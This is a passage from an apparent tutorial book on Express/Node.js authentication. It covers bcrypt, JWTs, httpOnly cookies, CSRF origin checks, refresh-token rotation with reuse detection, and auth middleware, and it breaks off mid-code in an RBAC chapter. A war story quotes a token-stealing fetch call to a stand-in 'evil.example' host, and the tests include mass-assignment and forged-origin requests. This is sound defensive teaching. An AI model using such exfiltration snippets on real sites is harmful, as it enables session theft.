import authRoutes from './auth.routes.js';
// ...
router.use('/auth', authRoutes);
```

## Pro tip / War story

> **We logged request bodies on validation failures** "for debugging". Six months later a log-aggregation vendor's breach included our logs, and they contained thousands of plaintext passwords from failed sign-ups. Never log bodies on auth routes. Our logger rule: IDs and error codes only.
>
> **Enumeration:** a client wanted friendly messages, "No account with that email". Fine for UX, terrible for security: it let attackers verify a list of leaked emails against us. Use generic messages for login and forgot-password. (Registration still reveals "email taken", an accepted trade-off; mitigate with rate limits and CAPTCHA.)

## Common mistakes

- `bcrypt.hashSync` in request handlers (blocks the event loop; use the async API).
- Hashing in the controller instead of the model hook.
- Using `findByIdAndUpdate` to set a password (skips the hook, stores plaintext!).
- Different error messages / timings for "unknown email" vs "wrong password".
- Storing reset tokens in plaintext, or making them reusable, or never expiring.
- Putting the reset token in a URL *path* on the API (it lands in access logs). We take it in the POST body.

## Test it

```bash
curl -s -X POST localhost:5000/api/v1/auth/register -H 'Content-Type: application/json' \
  -d '{"name":"Asha","email":"asha@example.com","password":"Passw0rdOK"}'
```
```json
{"status":"success","data":{"user":{"name":"Asha","email":"asha@example.com","role":"user","isEmailVerified":false,"providers":[],"createdAt":"...","updatedAt":"...","id":"..."}}}
```
(No `password`, no `tokenVersion`.)

```bash
# Duplicate -> 409
curl -s -X POST localhost:5000/api/v1/auth/register -H 'Content-Type: application/json' \
  -d '{"name":"Asha","email":"asha@example.com","password":"Passw0rdOK"}'
# {"status":"fail","code":"EMAIL_TAKEN","message":"Email already registered"}

# Mass-assignment attempt -> 400
curl -s -X POST localhost:5000/api/v1/auth/register -H 'Content-Type: application/json' \
  -d '{"name":"Evil","email":"evil@example.com","password":"Passw0rdOK","role":"admin"}'
# {"status":"fail","code":"VALIDATION_ERROR","message":"Validation failed","details":[{"path":"","message":"Unrecognized key(s) in object: 'role'"}]}

# Wrong password and unknown email give IDENTICAL responses
curl -s -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com","password":"wrong"}'
# {"status":"fail","code":"INVALID_CREDENTIALS","message":"Invalid email or password"}

# Forgot password: look at the server console for the DEV ONLY link, copy the token.
curl -s -X POST localhost:5000/api/v1/auth/forgot-password -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com"}'

curl -s -X POST localhost:5000/api/v1/auth/reset-password -H 'Content-Type: application/json' \
  -d '{"token":"<TOKEN_FROM_LOG>","password":"NewPassw0rd1"}'
# {"status":"success","message":"Password updated. Please log in again."}

# Re-using the same token -> 400 INVALID_RESET_TOKEN (single-use!)
```

## Interview corner

**1. Why bcrypt and not SHA-256?**
SHA-256 is designed to be fast, which helps attackers brute-force. bcrypt (also scrypt and argon2) is deliberately slow and has a tunable cost, plus built-in salting.

**2. What is a salt, and where is it stored?**
A random per-password value mixed into the hash so identical passwords hash differently and rainbow tables are useless. It's not secret and is stored inside the bcrypt output string.

**3. Why must login errors be generic?**
To prevent **user enumeration**. Different messages or response times reveal which emails have accounts. We also run a dummy compare to equalize timing.

**4. How do you build a secure password reset?**
Generate a cryptographically random token, store only its hash with a short expiry, email the raw token once, make it single-use (atomic claim), invalidate all sessions on success, and return an identical response whether or not the email exists.

**5. What's the bcrypt 72-byte gotcha?**
bcrypt ignores input beyond 72 bytes, so two very long passwords sharing the first 72 bytes are "equal". Cap length (or pre-hash) and validate it.

---

# Chapter 6: JWT and cookie-based auth

## Why this exists

After login, the server must recognize you on every later request. HTTP is stateless; each request is a stranger. Two approaches:

- **Sessions:** server stores `sessionId → user` and gives you the id.
- **JWT (JSON Web Token):** server gives you a **signed note** saying who you are. It can verify the note without looking anything up.

A JWT has 3 base64url parts: `header.payload.signature`.

```
eyJhbGciOiJIUzI1NiJ9 . eyJzdWIiOiI2NGYuLi4iLCJyb2xlIjoidXNlciJ9 . 3kP...
   {alg: HS256}            {sub, role, iat, exp, jti}              HMAC(header.payload, secret)
```

> **Okay, here's where people get this wrong:** the payload is **encoded, not encrypted**. Anyone can read it (paste it into jwt.io). The signature only proves it **wasn't modified**. Never put secrets or PII in a JWT.

## Mental model

A JWT is a **concert wristband** with the tamper-evident seal. The gate staff don't call the box office; they check the seal (signature) and the date printed on it (`exp`). Cheap and fast, but if you lose your wristband, anyone holding it gets in until it expires. That's the core trade-off that Chapters 7 and 10 fix.

## Where do we keep the token?

| Storage | XSS can steal it? | CSRF risk? | Verdict |
|---|---|---|---|
| `localStorage` | **Yes**, any injected script reads it | No (not auto-sent) | Convenient, risky |
| JS-readable cookie | Yes | Yes | Worst of both |
| **`httpOnly` cookie** | **No**, JS can't read it | Yes, auto-sent (mitigate) | **Our choice** |

### Cookie flags that matter

| Flag | Meaning | Why |
|---|---|---|
| `httpOnly` | JS can't read it (`document.cookie`) | Blunts XSS token theft |
| `secure` | Only sent over HTTPS | Stops network sniffing |
| `sameSite=lax` | Not sent on cross-site subrequests (POST/fetch/img); sent on top-level GET navigations | Main CSRF defense |
| `sameSite=strict` | Never sent cross-site, even on link clicks | Safest, but "click link from email → looks logged out" |
| `sameSite=none` | Always sent (requires `secure`) | Needed only when the frontend is on a different *site* |
| `path` | Only sent to URLs under this path | Scope tokens to where they're needed (Ch 7) |
| `maxAge` | Lifetime | Match the token's lifetime |

### CSRF in 60 seconds

**CSRF (Cross-Site Request Forgery):** you're logged into `shop.com`. You visit `evil.com`, which has a hidden form that POSTs to `shop.com/api/orders`. The browser *auto-attaches your cookie*. The server thinks it's you.

Defenses, layered:

1. `SameSite=Lax/Strict` cookies (the browser doesn't send them on cross-site POSTs).
2. **Origin check** on state-changing requests (browsers always send `Origin` on cross-origin POST/PUT/DELETE; attackers' pages can't forge it). We add this below.
3. JSON-only APIs + CORS allowlist (a cross-site form can't send `application/json`).
4. CSRF tokens (double-submit) for cookie-based apps that need them. With layers 1-3 it's usually unnecessary for a JSON API, but know it for interviews.

## Code

### `src/services/token.service.js` (first version, access token only)

```js
import crypto from 'node:crypto';
import jwt from 'jsonwebtoken';
import { config } from '../config/env.js';

export function signAccessToken(user) {
  return jwt.sign(
    // Keep the payload SMALL and non-sensitive. role + tv are enough to authorize quickly.
    { role: user.role, tv: user.tokenVersion },
    config.jwt.accessSecret,
    {
      algorithm: 'HS256',
      subject: String(user._id), // 'sub' = who this token is about
      jwtid: crypto.randomUUID(), // 'jti' = unique id, which lets us blacklist ONE token (Ch 10)
      expiresIn: `${config.jwt.accessTtlMin}m`, // SHORT-lived on purpose
    }
  );
}

export function verifyAccessToken(token) {
  // PIN the algorithm. Without `algorithms`, old libs accepted "alg: none" (unsigned!) tokens
  // or let attackers switch RS256 -> HS256 using the public key as the HMAC secret.
  return jwt.verify(token, config.jwt.accessSecret, { algorithms: ['HS256'] });
}
```

### `src/utils/cookies.js` (first version)

```js
import { config } from '../config/env.js';

export const ACCESS_COOKIE = 'accessToken';

const base = {
  httpOnly: true, // JS can't read it
  secure: config.cookie.secure, // HTTPS only in prod
  sameSite: config.cookie.sameSite,
};

export function setAccessCookie(res, accessToken) {
  res.cookie(ACCESS_COOKIE, accessToken, {
    ...base,
    path: '/',
    maxAge: config.jwt.accessTtlMin * 60 * 1000, // cookie dies when the token does
  });
}
```

### `src/middleware/csrfGuard.js`

```js
import { config } from '../config/env.js';
import { AppError } from '../utils/AppError.js';

const SAFE_METHODS = new Set(['GET', 'HEAD', 'OPTIONS']);
const trusted = new Set([...config.clientOrigins, new URL(config.serverUrl).origin]);

// For state-changing requests, if the browser tells us where the request came from,
// it must be somewhere we trust. Browsers always send Origin on cross-origin
// POST/PUT/PATCH/DELETE, and a malicious page cannot forge it.
export function csrfGuard(req, res, next) {
  if (SAFE_METHODS.has(req.method)) return next();
  const origin = req.get('origin');
  if (!origin) return next(); // no Origin = non-browser client (curl, mobile app); CSRF is a browser-only attack
  if (trusted.has(origin)) return next();
  return next(new AppError('Origin not allowed', 403, 'CSRF_ORIGIN_REJECTED'));
}
```

### Modify `src/app.js`

Add imports and register **after `express.json()`**:

```js
import cookieParser from 'cookie-parser';
import { csrfGuard } from './middleware/csrfGuard.js';
// ...
  app.use(express.json({ limit: '10kb' }));
  app.use(cookieParser()); // fills req.cookies
  app.use(csrfGuard);      // must come before routes
```

### Modify `src/controllers/auth.controller.js`: login sets the cookie

```js
import * as tokenService from '../services/token.service.js';
import { setAccessCookie } from '../utils/cookies.js';
// ...
export const login = asyncHandler(async (req, res) => {
  const user = await authService.login(req.valid.body);
  setAccessCookie(res, tokenService.signAccessToken(user));
  res.json({ status: 'success', data: { user } });
});
```

(Chapter 7 upgrades this to a token *pair*.)

### Understanding JWT errors (you'll map these in Chapters 8 and 11)

```js
try {
  jwt.verify(token, secret, { algorithms: ['HS256'] });
} catch (err) {
  err.name === 'TokenExpiredError'; // signature is valid, token is just OLD, so the client should refresh
  err.name === 'JsonWebTokenError'; // bad signature / malformed / wrong alg, so someone is tampering or it's garbage: log in again
  err.name === 'NotBeforeError';    // used before its `nbf` time
}
```

The distinction matters: expired → the frontend silently calls `/auth/refresh` and retries. Invalid → force login. Treat them the same and your UX or your security suffers.

## Pro tip / War story

> We stored JWTs in `localStorage`. A third-party "live chat" widget, loaded via a `<script>` tag, got compromised upstream and shipped a snippet that did `fetch('https://evil.example/c?t='+localStorage.token)`. Every logged-in visitor's token went out the door. With `httpOnly` cookies that script can still make *requests as the user* while the page is open, but it **can't walk away with the token** to use later from elsewhere. Damage is contained to the session.
>
> And: a long-lived access token (30 days) means a leaked token is a 30-day breach. Hence Chapter 7.

## Common mistakes

- Putting sensitive data in the payload (it's readable).
- `jwt.decode()` for authentication. It **doesn't verify**. Only `verify()` checks the signature.
- Not pinning `algorithms`.
- `SameSite=None` without `Secure` (browser drops the cookie).
- `clearCookie` without the same `path/domain/sameSite/secure` as `set` (cookie survives; Ch 10).
- Using one huge expiry "so users stay logged in".

## Test it

```bash
curl -i -c cookies.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com","password":"NewPassw0rd1"}'
```
Expected headers:
```
Set-Cookie: accessToken=eyJhbGciOi...; Max-Age=900; Path=/; Expires=...; HttpOnly; SameSite=Lax
```
(`Secure` appears in production.) Decode the payload to see it's readable:

```bash
grep accessToken cookies.txt | awk '{print $7}' | cut -d. -f2 | base64 -d 2>/dev/null; echo
# {"role":"user","tv":0,"iat":...,"exp":...,"sub":"...","jti":"..."}
```

CSRF guard check:

```bash
curl -s -X POST localhost:5000/api/v1/auth/login -H 'Origin: http://evil.com' -H 'Content-Type: application/json' \
  -d '{"email":"a@b.com","password":"x"}'
# {"status":"fail","code":"CSRF_ORIGIN_REJECTED","message":"Origin not allowed"}
```

## Interview corner

**1. Is a JWT encrypted?**
No. Standard JWTs (JWS) are signed, not encrypted. The payload is base64url-encoded and readable by anyone. The signature guarantees integrity, not secrecy.

**2. `localStorage` vs `httpOnly` cookie for tokens?**
localStorage is XSS-stealable. httpOnly cookies aren't readable by JS but are auto-sent, which creates CSRF risk, mitigated with SameSite, origin checks, and CORS. For browser apps, httpOnly cookies are generally preferred.

**3. What's the difference between `TokenExpiredError` and `JsonWebTokenError`?**
Expired = valid signature, past `exp`, so refresh. JsonWebTokenError = invalid or tampered or malformed, so reject and re-authenticate.

**4. How does SameSite stop CSRF?**
Lax/Strict cookies aren't attached to cross-site subrequests like a forged POST from another site, so the attacker's request arrives unauthenticated.

**5. What is the `alg: none` attack?**
A forged token with `alg: none` and no signature that vulnerable libraries accepted as valid. The fix is pinning allowed algorithms in `verify`.

---

# Chapter 7: Dual-token auth

## Why this exists

The dilemma:

- **Long-lived** token → convenient, but a stolen one is a disaster.
- **Short-lived** token → safer, but users re-login every 15 minutes. Awful.

**Solution: two tokens.**

| | Access token | Refresh token |
|---|---|---|
| Purpose | Authenticate API calls | Get a *new* access token |
| Lifetime | 15 min | 7 days |
| Sent to | every endpoint (`path=/`) | **only** `/api/v1/auth/*` (`path=/api/v1/auth`) |
| Stored server-side? | No (stateless; blacklist in Ch 10) | **Yes**, as a SHA-256 hash |
| If stolen | Dies in ≤15 min | Detectable and revocable |

## Why we are NOT using single-token auth (interview-ready comparison)

*No implementation here, only the reasoning.*

A single-token design = one JWT (say 7 days) used for everything.

| | Single long JWT | Dual-token (ours) |
|---|---|---|
| Server state | None, **fully stateless** | Refresh tokens stored (stateful part) |
| Revocation | Impossible until expiry (unless you add a blacklist, which makes it stateful anyway) | Revoke refresh token or family instantly; access dies in ≤15 min |
| Stolen token impact | Up to 7 days of access | ≤15 min of access, and refresh theft is *detectable* via reuse detection |
| Per-request cost | Signature check only | Same (refresh DB hit only every ~15 min) |
| Complexity | Low | Higher (rotation, races, cookie scoping) |
| "Logout" | Cosmetic (token still valid) | Real |
| Good for | Internal tools, short-lived service-to-service tokens, tiny apps | Anything with real users and money |

Pure stateless can't support real logout, password-change invalidation, or ban hammers. Pure stateful (sessions) can, at the cost of a lookup per request and shared session storage. Dual-token is the compromise: *mostly stateless* per request, *stateful* where it matters.

## Mental model

The access token is a **day-pass wristband that expires in 15 minutes**. The refresh token is your **ID card kept in the manager's office** (scoped path) and is **swapped for a new card every time you use it**. If someone photocopies your card and both of you try to use the same old card, the manager notices the duplicate and **cancels every card in your family**.



**Why revoke the whole family?** When RT1 is used twice, one of the users is an attacker, and we can't tell which. Killing the family forces a fresh password login, which the attacker can't do.

## Code

### Replace `src/utils/cookies.js`

```js
import { config } from '../config/env.js';

export const ACCESS_COOKIE = 'accessToken';
export const REFRESH_COOKIE = 'refreshToken';

// SCOPED path: the browser sends the refresh cookie ONLY to /api/v1/auth/*.
// So a vulnerability in, say, /api/v1/products can never see or leak it, and it isn't
// attached to the hundreds of normal API calls. Smaller exposure window.
export const REFRESH_COOKIE_PATH = '/api/v1/auth';

const base = {
  httpOnly: true,
  secure: config.cookie.secure,
  sameSite: config.cookie.sameSite,
};

export function setAuthCookies(res, { accessToken, refreshToken }) {
  res.cookie(ACCESS_COOKIE, accessToken, {
    ...base,
    path: '/',
    maxAge: config.jwt.accessTtlMin * 60 * 1000,
  });
  res.cookie(REFRESH_COOKIE, refreshToken, {
    ...base,
    path: REFRESH_COOKIE_PATH,
    maxAge: config.jwt.refreshTtlDays * 24 * 60 * 60 * 1000,
  });
}

// To delete a cookie, the browser requires the SAME name + path (+ domain).
// Missing the path = the "deleted" cookie silently stays. (Chapter 10 war story.)
export function clearAuthCookies(res) {
  res.clearCookie(ACCESS_COOKIE, { ...base, path: '/' });
  res.clearCookie(REFRESH_COOKIE, { ...base, path: REFRESH_COOKIE_PATH });
}
```

### Replace `src/services/token.service.js`

```js
import crypto from 'node:crypto';
import jwt from 'jsonwebtoken';
import { config } from '../config/env.js';
import { RefreshToken } from '../models/RefreshToken.js';
import { User } from '../models/User.js';
import { AppError } from '../utils/AppError.js';

// SHA-256 is right for high-entropy tokens (see Ch 5 for why not bcrypt here).
export const sha256 = (v) => crypto.createHash('sha256').update(v).digest('hex');

export function signAccessToken(user) {
  return jwt.sign({ role: user.role, tv: user.tokenVersion }, config.jwt.accessSecret, {
    algorithm: 'HS256',
    subject: String(user._id),
    jwtid: crypto.randomUUID(),
    expiresIn: `${config.jwt.accessTtlMin}m`,
  });
}

export function verifyAccessToken(token) {
  return jwt.verify(token, config.jwt.accessSecret, { algorithms: ['HS256'] });
}

async function createRefreshToken(user, family, meta) {
  const token = jwt.sign({ fam: family }, config.jwt.refreshSecret, {
    algorithm: 'HS256',
    subject: String(user._id),
    jwtid: crypto.randomUUID(),
    expiresIn: `${config.jwt.refreshTtlDays}d`,
  });
  const { jti, exp } = jwt.decode(token);
  await RefreshToken.create({
    user: user._id,
    family,
    jti,
    tokenHash: sha256(token), // the DB never sees the raw token
    expiresAt: new Date(exp * 1000),
    userAgent: meta.userAgent?.slice(0, 200),
    ip: meta.ip,
  });
  return token;
}

// A new login starts a NEW family. A rotation continues the SAME family.
export async function issueTokenPair(user, meta = {}, family = crypto.randomUUID()) {
  return {
    accessToken: signAccessToken(user),
    refreshToken: await createRefreshToken(user, family, meta),
  };
}

export async function revokeFamily(family) {
  await RefreshToken.deleteMany({ family });
}

export async function revokeAllForUser(userId) {
  await RefreshToken.deleteMany({ user: userId });
}

export async function rotateRefreshToken(rawToken, meta = {}) {
  let payload;
  try {
    payload = jwt.verify(rawToken, config.jwt.refreshSecret, { algorithms: ['HS256'] });
  } catch {
    throw new AppError('Invalid or expired refresh token', 401, 'INVALID_REFRESH_TOKEN');
  }

  const tokenHash = sha256(rawToken);

  // ATOMIC claim: "mark as used, but only if it's not used yet". If two requests race with
  // the same token, exactly one wins. A read-then-write would let both through.
  const claimed = await RefreshToken.findOneAndUpdate(
    { tokenHash, usedAt: null },
    { usedAt: new Date() }
  );

  if (!claimed) {
    const existing = await RefreshToken.findOne({ tokenHash });
    if (existing) {
      // A valid, known token that was ALREADY used => replay => assume theft.
      await revokeFamily(existing.family);
      throw new AppError('Refresh token reuse detected. Please log in again.', 401, 'TOKEN_REUSE');
    }
    // Not in DB: expired (TTL purge), or its family was already revoked.
    throw new AppError('Invalid or expired refresh token', 401, 'INVALID_REFRESH_TOKEN');
  }

  const user = await User.findById(payload.sub);
  if (!user) {
    await revokeFamily(claimed.family);
    throw new AppError('Invalid or expired refresh token', 401, 'INVALID_REFRESH_TOKEN');
  }

  const tokens = await issueTokenPair(user, meta, claimed.family); // same family, new token
  return { user, tokens };
}
```

### Modify `src/services/auth.service.js`

Add the import and update `resetPassword` so a reset kills all sessions:

```js
import * as tokenService from './token.service.js';
// ... inside resetPassword, after `await user.save();`
  await tokenService.revokeAllForUser(user._id);
  return user;
```

### Replace `src/controllers/auth.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import { AppError } from '../utils/AppError.js';
import * as authService from '../services/auth.service.js';
import * as tokenService from '../services/token.service.js';
import { setAuthCookies, REFRESH_COOKIE } from '../utils/cookies.js';

// Device info stored with each refresh token (useful for a "your sessions" page later).
const meta = (req) => ({ userAgent: req.get('user-agent'), ip: req.ip });

export const register = asyncHandler(async (req, res) => {
  const user = await authService.register(req.valid.body);
  setAuthCookies(res, await tokenService.issueTokenPair(user, meta(req)));
  res.status(201).json({ status: 'success', data: { user } });
});

export const login = asyncHandler(async (req, res) => {
  const user = await authService.login(req.valid.body);
  setAuthCookies(res, await tokenService.issueTokenPair(user, meta(req)));
  res.json({ status: 'success', data: { user } });
});

export const refresh = asyncHandler(async (req, res) => {
  const raw = req.cookies?.[REFRESH_COOKIE];
  if (!raw) throw new AppError('No refresh token', 401, 'NO_REFRESH_TOKEN');
  const { user, tokens } = await tokenService.rotateRefreshToken(raw, meta(req));
  setAuthCookies(res, tokens);
  res.json({ status: 'success', data: { user } });
});

export const forgotPassword = asyncHandler(async (req, res) => {
  await authService.forgotPassword(req.valid.body.email);
  res.json({ status: 'success', message: 'If that email exists, a reset link has been sent' });
});

export const resetPassword = asyncHandler(async (req, res) => {
  await authService.resetPassword(req.valid.body);
  res.json({ status: 'success', message: 'Password updated. Please log in again.' });
});
```

### Modify `src/routes/auth.routes.js`

```js
// no body needed; the refresh token is in the scoped cookie
router.post('/refresh', ctrl.refresh);
```

(Place it after `/login`. It isn't strictly credential-guessing, so it uses only the global limiter.)

## Pro tip / War story

> **The multi-tab logout bug.** Users kept getting randomly logged out. Cause: the app had 3 tabs open; the access token expired; all 3 tabs fired `/refresh` with the *same* refresh token within milliseconds. Tab 1 won; tabs 2 and 3 looked like **token reuse**, so we nuked the family and logged everyone out. Real attackers weren't involved, just race conditions.
>
> Fixes, in order of effort: (1) on the client, **single-flight** the refresh (one in-flight promise shared by all callers); (2) a short **grace window** (~10s) where reusing the *just-rotated* token is tolerated and returns the same new pair; (3) `BroadcastChannel` across tabs. Reuse detection is powerful; just make sure your own client doesn't trigger it.

## Common mistakes

- Storing raw refresh tokens in the DB (a DB leak = every session stolen).
- Rotating without reuse detection, which means rotation buys you nothing against theft.
- Read-then-write instead of an atomic claim (race → two valid children).
- Not scoping the refresh cookie path.
- Refresh tokens that never expire, or no TTL cleanup.
- Not revoking refresh tokens on password change.

## Test it

```bash
# 1. Login (cookie jar saves BOTH cookies)
curl -s -c cookies.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com","password":"NewPassw0rd1"}' > /dev/null
grep -E 'accessToken|refreshToken' cookies.txt | awk '{print $6, $7=substr($7,1,12)"..."}'
# accessToken  eyJhbGciOiJI...   (path /)
# refreshToken eyJhbGciOiJI...   (path /api/v1/auth: check column 3 of the raw file)

# 2. Keep a COPY of the current refresh cookie (this plays "the attacker")
cp cookies.txt stolen.txt

# 3. Legit refresh: rotates the token
curl -s -b cookies.txt -c cookies.txt -X POST localhost:5000/api/v1/auth/refresh
# {"status":"success","data":{"user":{...}}}

# 4. Attacker replays the OLD token
curl -s -b stolen.txt -c /dev/null -X POST localhost:5000/api/v1/auth/refresh
# {"status":"fail","code":"TOKEN_REUSE","message":"Refresh token reuse detected. Please log in again."}

# 5. The victim's NEW token is now dead too (family revoked)
curl -s -b cookies.txt -X POST localhost:5000/api/v1/auth/refresh
# {"status":"fail","code":"INVALID_REFRESH_TOKEN","message":"Invalid or expired refresh token"}
```

Verify the scoped path: `curl -i -b cookies.txt localhost:5000/api/v1/health` won't send the refresh cookie (path doesn't match).

## Interview corner

**1. Why two tokens instead of one?**
It separates *frequent, exposed* credentials (access, short-lived) from *rare, high-value* ones (refresh, long-lived, scoped, stored server-side). Theft of an access token has a tiny blast radius, while refresh tokens can be revoked.

**2. What is refresh token rotation and why do it?**
Each refresh invalidates the used token and issues a new one. A stolen token then works at most once, and any second use is detectable.

**3. Explain reuse detection and family revocation.**
Tokens from one login share a `family`. If a *used* token is presented again, either the thief or the user is replaying it. We can't tell which, so we delete the whole family, forcing a password login.

**4. Why hash refresh tokens in the DB?**
Same reason as passwords. A DB leak shouldn't yield usable credentials. SHA-256 suffices because the tokens are high-entropy.

**5. Why scope the refresh cookie's `path`?**
So it's sent only to auth endpoints, which reduces exposure (logs, other routes' vulnerabilities, request size).


---

# Chapter 8: Auth middleware

## Why this exists

Right now nothing *checks* the access token. We need one reusable gate that says: "who is this request from?" and attaches the answer to `req.user`, so every protected route can just trust `req.user` and nothing else.

## Mental model

The middleware is the **bouncer at the club door**. It does four things in order: find the ticket (extraction), check it's genuine and unexpired (verification), check it hasn't been cancelled (revocation), and write the guest's name on a wristband (`req.user`). Everything inside the club trusts the wristband and never asks the guest "who are you?" again.

### 401 vs 403: the one everyone mixes up

| Code | Name | Meaning | Example |
|---|---|---|---|
| **401** | Unauthorized (really "unauthenticated") | "I don't know who you are" | no token, expired token, bad token |
| **403** | Forbidden | "I know who you are, and the answer is no" | a normal user calls an admin route |

## Code

### Modify `src/services/auth.service.js`: add token authentication

Add imports (`tokenService` is already imported from Chapter 7) and this function. We keep this in the *service* so Socket.io (Chapter 14) can reuse the exact same logic:

```js
export async function authenticateAccessToken(token) {
  let payload;
  try {
    payload = tokenService.verifyAccessToken(token);
  } catch (err) {
    // Distinguish the two: the frontend refreshes on EXPIRED, forces login on INVALID.
    if (err.name === 'TokenExpiredError') {
      throw new AppError('Access token expired', 401, 'TOKEN_EXPIRED');
    }
    throw new AppError('Invalid token', 401, 'INVALID_TOKEN');
  }

  // One DB read per request. It buys us instant effects for bans, role changes and
  // "logout everywhere". The cost is a DB hit; cache in Redis if this becomes hot.
  const user = await User.findById(payload.sub);
  if (!user || user.tokenVersion !== payload.tv) {
    throw new AppError('Session is no longer valid', 401, 'TOKEN_REVOKED');
  }
  return { user, payload };
}
```

### `src/middleware/auth.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import { AppError } from '../utils/AppError.js';
import { ACCESS_COOKIE } from '../utils/cookies.js';
import { authenticateAccessToken } from '../services/auth.service.js';

// Cookie first (browsers), then "Authorization: Bearer" (Postman, mobile, tests).
function extractToken(req) {
  const header = req.headers.authorization;
  if (header?.startsWith('Bearer ')) return header.slice(7);
  return req.cookies?.[ACCESS_COOKIE];
}

// REQUIRED auth: no valid token = 401.
export const authenticate = asyncHandler(async (req, res, next) => {
  const token = extractToken(req);
  if (!token) throw new AppError('Authentication required', 401, 'AUTH_REQUIRED');

  const { user, payload } = await authenticateAccessToken(token);
  req.user = user; // controllers use THIS, never req.body.userId
  req.auth = payload; // raw claims (jti/exp), needed by logout
  next();
});

// OPTIONAL auth: used where a logged-in user gets extra behavior but anonymous is fine
// (e.g. logout, or a product page that shows "in your cart"). Bad tokens are ignored, not fatal.
export const optionalAuth = asyncHandler(async (req, res, next) => {
  const token = extractToken(req);
  if (token) {
    try {
      const { user, payload } = await authenticateAccessToken(token);
      req.user = user;
      req.auth = payload;
    } catch (err) {
      if (!(err instanceof AppError)) throw err; // swallow auth failures only; real bugs still surface
    }
  }
  next();
});
```

### `src/validators/user.validators.js`

```js
import { z } from 'zod';

// Only 'name' is editable. NOT role, email or password, which each get their own
// carefully-controlled flow. .strict() makes {"role":"admin"} a 400.
export const updateMeSchema = {
  body: z.object({ name: z.string().trim().min(2).max(80) }).strict(),
};
```

### `src/services/user.service.js`

```js
import { User } from '../models/User.js';

export async function updateProfile(userId, { name }) {
  // userId comes from the verified token (req.user), never from the request body.
  return User.findByIdAndUpdate(userId, { $set: { name } }, { new: true, runValidators: true });
}
```

### `src/controllers/user.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as userService from '../services/user.service.js';

export const getMe = asyncHandler(async (req, res) => {
  res.json({ status: 'success', data: { user: req.user } });
});

export const updateMe = asyncHandler(async (req, res) => {
  const user = await userService.updateProfile(req.user._id, req.valid.body);
  res.json({ status: 'success', data: { user } });
});
```

### `src/routes/user.routes.js`

```js
import { Router } from 'express';
import { authenticate } from '../middleware/auth.js';
import { validate } from '../middleware/validate.js';
import * as ctrl from '../controllers/user.controller.js';
import { updateMeSchema } from '../validators/user.validators.js';

const router = Router();

router.use(authenticate); // everything below needs a logged-in user

router.get('/me', ctrl.getMe);
router.patch('/me', validate(updateMeSchema), ctrl.updateMe);

export default router;
```

### Modify `src/routes/index.js`

```js
import userRoutes from './user.routes.js';
// ...
router.use('/users', userRoutes);
```

## Pro tip / War story

> We once had an `authenticate` middleware that did `try { verify } catch { next() }`, copy-pasted from an "optional auth" example. It silently let *bad* tokens through as anonymous. Then someone added an endpoint that checked `if (req.user?.role !== 'admin')`... and another that checked `if (req.user)` was *absent* to allow signup. A forged token turned into an anonymous request on a route that assumed anonymous meant "new customer". Two separate middlewares (`authenticate` vs `optionalAuth`) with **different names** make the intent visible in every route file.
>
> And an `asyncHandler` is not optional: an `await` that throws inside a bare Express 4 middleware produces an unhandled rejection and a hanging request.

## Common mistakes

- Reading `req.body.userId` or a `userId` query param instead of `req.user`.
- Using 403 for "not logged in" or 401 for "not allowed".
- Treating `jwt.decode()` output as trusted.
- Skipping the DB check, which means banned users and demoted admins keep working until expiry.
- Returning different messages for expired vs invalid in a way that helps attackers. Our codes are fine because both lead to a legitimate re-auth path.

## Test it

```bash
# No token -> 401
curl -s localhost:5000/api/v1/users/me
# {"status":"fail","code":"AUTH_REQUIRED","message":"Authentication required"}

# Login, then call with the cookie
curl -s -c cookies.txt -X POST localhost:5000/api/v1/auth/login -H 'Content-Type: application/json' \
  -d '{"email":"asha@example.com","password":"NewPassw0rd1"}' > /dev/null
curl -s -b cookies.txt localhost:5000/api/v1/users/me
# {"status":"success","data":{"user":{"name":"Asha","email":"asha@example.com","role":"user",...}}}

# Garbage token -> 401 INVALID_TOKEN
curl -s localhost:5000/api/v1/users/me -H 'Authorization: Bearer abc.def.ghi'
# {"status":"fail","code":"INVALID_TOKEN","message":"Invalid token"}

# Mass assignment on profile -> 400
curl -s -X PATCH localhost:5000/api/v1/users/me -b cookies.txt -H 'Content-Type: application/json' \
  -d '{"name":"Asha K","role":"admin"}'
# {"status":"fail","code":"VALIDATION_ERROR",...}
```

To see `TOKEN_EXPIRED`, temporarily set `ACCESS_TOKEN_TTL_MIN=1` (use `0.02`-style values only with a code change), restart, login, wait over a minute, call `/users/me`.

## Interview corner

**1. What's the difference between 401 and 403?**
401: unauthenticated (missing or invalid credentials). 403: authenticated but not permitted.

**2. Why look up the user in the DB if the JWT is "self-contained"?**
To honor revocations (tokenVersion, bans, role changes) immediately. The trade-off is one indexed read per request. It's a conscious step back from pure statelessness.

**3. Why separate `authenticate` and `optionalAuth`?**
Intent clarity and safety. Required auth must hard-fail. Optional auth must never leak into places where "anonymous" has meaning.

**4. Why `req.user` instead of a body field?**
Anything in the body is attacker-controlled. Identity must come from a verified credential.

**5. How would you reduce the per-request DB read?**
Cache `{id → tokenVersion, role}` in Redis with a short TTL, invalidating on role change, ban or logout-all. Or embed `role` and `tv` in the token and accept the staleness window.

---

# Chapter 9: Protected routes, RBAC and IDOR

## Why this exists

Authentication answers *who*. **Authorization** answers *what may they do*. Two layers:

1. **RBAC (Role-Based Access Control):** "only admins can create products."
2. **Ownership checks:** "you can read *your* order, not anyone else's." Missing this is **IDOR (Insecure Direct Object Reference)**, and it's the #1 real-world API bug (OWASP calls it Broken Access Control).

## Mental model

A hotel. Your key card (authentication) gets you into the building. **Role** decides which floors you can reach (staff-only floor = RBAC). But **even on the guest floor, your card opens only *your* room**, and that's the ownership check. Hotels that skip the second check are the ones where changing `/orders/1001` to `/orders/1002` shows you a stranger's address.

## Code

### Append to `src/middleware/auth.js`: the `authorize` factory

```js
// A middleware FACTORY: authorize('admin') RETURNS a middleware. Run it AFTER authenticate.
// Usage: router.post('/', authenticate, authorize('admin'), ctrl.create)
export const authorize =
  (...roles) =>
  (req, res, next) => {
    if (!req.user) return next(new AppError('Authentication required', 401, 'AUTH_REQUIRED'));
    if (!roles.includes(req.user.role)) {
